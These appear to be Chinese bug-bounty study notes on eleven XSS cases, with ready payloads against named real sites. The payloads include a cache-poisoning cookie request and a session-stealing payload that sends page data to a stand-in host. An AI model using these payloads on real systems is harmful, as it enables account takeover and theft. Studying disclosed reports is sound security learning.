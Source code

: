 # 1.隐藏输入中的xss（绕过输入转义）
参数，位于post请求中的listViewHeading=
有效负载：" accesskey=X onclick=alert()
![[Pasted image 20241014211401.png]]
" accesskey=X onclick=alert() xxx
![[Pasted image 20241014211445.png]]
success

# 2.个人主页的项目名称中可以插入xsspayload
```
post
name="><svg onload="prompt(/xss/);"><!--
```

# 3.二维码xss
二维码执行js

# 4.cookie里的xss
cookie: hav=xxx 反射到页面上
payload:cookie:  hav=xss"</sc"ript><sv"g/onloa"d=al"ert"(document.do"main)>
缓存投毒，http响应里的头Cache-Control和Expires表明可以缓存
还发现cookie明文存储在页面js的这个变量window.INITIAL_STATE.system.cookie
直接alert(window.INITIAL_STATE.system.cookie)
厂商通过去除hav反射在页面修复该问题
邦邦的https://hackerone.com/reports/1760213

```
GET /annonces/location-vacances/france_midi-pyrenees_46_stcere_dt0.php.js?xxxd HTTP/2
Host: www.abritel.fr
Cookie: hav=xss"</sc"ript><sv"g/onloa"d=aler"t"(document.doma"in)>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.abritel.fr/signup?enable_registration=true&redirectTo=%2Fsearch%2Fkeywords%3Asoissons-france-%28xss%29%2FminNightlyPrice%2F0%3FpetIncluded%3Dfalse%26filterByTotalPrice%3Dtrue%26ssr%3Dtrue&referrer_page_location=serp
Upgrade-Insecure-Requests: 1
Te: trailers
```
.js触发缓存。?xxxd缓存破坏器

# 5.postmessage相关的xss
网页存在代码![[Pasted image 20241017232723.png|700]]
e.data有exec的话就用eval执行代码，这里检查origin，但是不严格
```
可以构造https://hq.upserve.com.mydomain.com/xss.html
页面里window.opener.postMessage({exec:'alert("xss")'},"https://inventory.upserve.com/login/);
向目标网站发送一个包含代码执行的消息
```
推荐插件:postmessage tracker
自动化工具：semgrep
或者自己在开发者工具搜
![[Pasted image 20241017233752.png]]

# 6.没有绕过csp的2000刀xss
https://hackerone.com/reports/1804177
这里hunter的提交最初被关闭为selfxss。但是通过与审核沟通，这是一个能攻击管理员的存储xss
在应用程序发现能够创建链接，并且被群组的人看到，于是
使用此`javascript://%0aalert(1)`作为链接创建Custom Link（存在xss的功能）
浏览器报错说csp阻止了，说明此处可能存在xss，于是报告漏洞

思考：学会和审核沟通

# 7.登陆错误的xss
正常情况target.com/login?error=xxx
攻击情况
```
target.com/login?error=<img src=1 onerror=alert()>
```

# 8.个人信息中心处xss
某个字段可以编辑进行存储xss
https://hackerone.com/reports/1921606

# 9.分析上下文构造payload的搜索xss
search?brook
![[Pasted image 20241020112514.png]]
payload：
```
"，inertnalSearchTerm:[7].map(alert),num0fSearchResultsReturned:"b
//输入时候要url编码符号，这里iner这个没有特殊含义
```
这里[].map()算是一个简单绕过思路吧
弹窗
![[Pasted image 20241020112736.png]]

# 10.xss账户接管
这里无法通过cookie窃取会话，但是发现https://www.sidefx.com/account/sessions/页面包含会话信息
测试危害：向其他账号发送https://example.com/&quot&gtsadf&lt/a&gt&ltimg&#32src=&quotxx&quotonerror=&quotalert&#40&#39XSS&#39&#41&quot&gt，受害者打开后发现会弹窗

接管账户的有效负载：
```
https://example.com/&quot&gtsadf&lt/a&gt&ltimg&#32src=&quotxxx&quotonerror=&quotfetch&#40&#39https&#58&#47&#47www.sidefx.com/account/sessions&#39&#41.then&#40response=&gt&#123response.text&#40&#41.then&#40ddd=&gt&#123let&#32el=document.createElement&#40&#39img&#39&#41&#59el.src=&#39http&#58&#47&#47myfakesite.com?q=&#39&#43btoa&#40encodeURIComponent&#40ddd&#41&#41&#59document.body.appendChild&#40el&#41&#125&#41&#125&#41&quot&gt
```
实际上就是
![[Pasted image 20241020133317.png]]
将页面内容（含有session）发给攻击者hhh
由于网站存在论坛，可以在论坛发送payload进行危害发散

思考：账号接管怎么做，如何造成危害（这里通过论坛去扩散危害），cookie被限制时候找找页面有没有存在会话信息的地方

# 11.服务器错误处理cookie导致xss
https://wx.zsxq.com/columns/48884815425228
本来cookie中的字段以分号相隔为不同的cookie字段，但是这里服务器把空格也当成了分隔符，当攻击者用空格进行构造cookie的时候，服务器没有进行安全处理直接将cookie字段反射到页面造成xss
思考：新的漏洞点，关注cookie等可能的header头也会有xss反射点